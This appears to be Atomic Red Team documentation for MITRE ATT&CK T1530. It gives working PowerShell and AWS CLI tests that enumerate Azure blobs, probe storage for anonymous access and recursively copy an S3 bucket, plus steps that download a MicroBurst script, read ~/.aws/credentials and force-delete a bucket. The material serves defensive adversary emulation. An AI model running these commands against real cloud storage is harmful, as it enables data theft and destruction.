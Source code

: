 # T1530 - Data from Cloud Storage Object
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1530)
<blockquote>Adversaries may access data objects from improperly secured cloud storage.

Many cloud service providers offer solutions for online data storage such as Amazon S3, Azure Storage, and Google Cloud Storage. These solutions differ from other storage solutions (such as SQL or Elasticsearch) in that there is no overarching application. Data from these solutions can be retrieved directly using the cloud provider's APIs. Solution providers typically offer security guides to help end users configure systems.(Citation: Amazon S3 Security, 2019)(Citation: Microsoft Azure Storage Security, 2019)(Citation: Google Cloud Storage Best Practices, 2019)

Misconfiguration by end users is a common problem. There have been numerous incidents where cloud storage has been improperly secured (typically by unintentionally allowing public access by unauthenticated users or overly-broad access by all users), allowing open access to credit cards, personally identifiable information, medical records, and other sensitive information.(Citation: Trend Micro S3 Exposed PII, 2017)(Citation: Wired Magecart S3 Buckets, 2019)(Citation: HIPAA Journal S3 Breach, 2017) Adversaries may also obtain leaked credentials in source repositories, logs, or other means as a way to gain access to cloud storage objects that have access permission controls.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst](#atomic-test-1---azure---enumerate-azure-blobs-with-microburst)

- [Atomic Test #2 - Azure - Scan for Anonymous Access to Azure Storage (Powershell)](#atomic-test-2---azure---scan-for-anonymous-access-to-azure-storage-powershell)

- [Atomic Test #3 - AWS - Scan for Anonymous Access to S3](#atomic-test-3---aws---scan-for-anonymous-access-to-s3)


<br/>

## Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst
Upon successful execution, this test will utilize a wordlist to enumerate the public facing containers and blobs of a specified Azure storage account. 
See https://www.netspi.com/blog/technical/cloud-penetration-testing/anonymously-enumerating-azure-file-resources/ .

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 3dab4bcc-667f-4459-aea7-4162dd2d6590





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| base | Azure blob keyword to enumerate (Example, storage account name) | string | secure|
| output_file | File to output results to | string | $env:temp&#92;T1530Test1.txt|
| wordlist | File path to keywords for search permutations | string | $env:temp&#92;permutations.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
import-module "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
Invoke-EnumerateAzureBlobs -base #{base} -permutations #{wordlist} -outputfile "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Invoke-EnumerateAzureBlobs module must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\Invoke-EnumerateAzureBlobs.ps1){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/Invoke-EnumerateAzureBlobs.ps1" -outfile "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
```
##### Description: The wordlist file for search permutations must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path #{wordlist}){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/permutations.txt" -outfile "#{wordlist}"
```




<br/>
<br/>

## Atomic Test #2 - Azure - Scan for Anonymous Access to Azure Storage (Powershell)
Upon successful execution, this test will test for anonymous access to Azure storage containers by invoking a web request and outputting the results to a file. 
The corresponding response could then be interpreted to determine whether or not the resource/container exists, as well as other information. 
See https://ninocrudele.com/the-three-most-effective-and-dangerous-cyberattacks-to-azure-and-countermeasures-part-2-attack-the-azure-storage-service

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 146af1f1-b74e-4aa7-9895-505eb559b4b0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| base_name | Azure storage account name to test | string | T1530Test2|
| output_file | File to output results to | string | $env:temp&#92;T1530Test2.txt|
| container_name | Container name to search for (optional) | string | |
| blob_name | Blob name to search for (optional) | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
try{$response = invoke-webrequest "https://#{base_name}.blob.core.windows.net/#{container_name}/#{blob_name}" -method "GET"}
catch [system.net.webexception]
{if($_.Exception.Response -ne $null)
{$Response = $_.Exception.Response.GetResponseStream()
$ReadResponse = New-Object System.IO.StreamReader($Response)
$ReadResponse.BaseStream.Position = 0
$responseBody = $ReadResponse.ReadToEnd()}
else {$responseBody = "The storage account could not be anonymously accessed."}}
"Response received for #{base_name}.blob.core.windows.net/#{container_name}/#{blob_name}: $responsebody" | out-file -filepath #{output_file} -append
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```





<br/>
<br/>

## Atomic Test #3 - AWS - Scan for Anonymous Access to S3
Upon successful execution, this test will test for anonymous access to AWS S3 buckets and dumps all the files to a local folder.

**Supported Platforms:** Iaas:aws


**auto_generated_guid:** 979356b9-b588-4e49-bba4-c35517c484f5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| s3_bucket_name | Name of the bucket | string | redatomic-test2|


#### Attack Commands: Run with `sh`! 


```sh
aws --no-sign-request s3 cp --recursive s3://#{s3_bucket_name} /tmp/#{s3_bucket_name}
```

#### Cleanup Commands:
```sh
aws s3 rb s3://#{s3_bucket_name} --force 
rm -rf /tmp/#{s3_bucket_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Check if ~/.aws/credentials file has a default stanza is configured
##### Check Prereq Commands:
```sh
cat ~/.aws/credentials | grep "default"
aws s3api create-bucket --bucket #{s3_bucket_name}
aws s3api put-bucket-policy --bucket #{s3_bucket_name} --policy file://$PathToAtomicsFolder/T1530/src/policy.json
touch /tmp/T1530.txt
aws s3 cp /tmp/T1530.txt s3://#{s3_bucket_name}
```
##### Get Prereq Commands:
```sh
echo Please install the aws-cli and configure your AWS default profile using: aws configure
```




<br/>
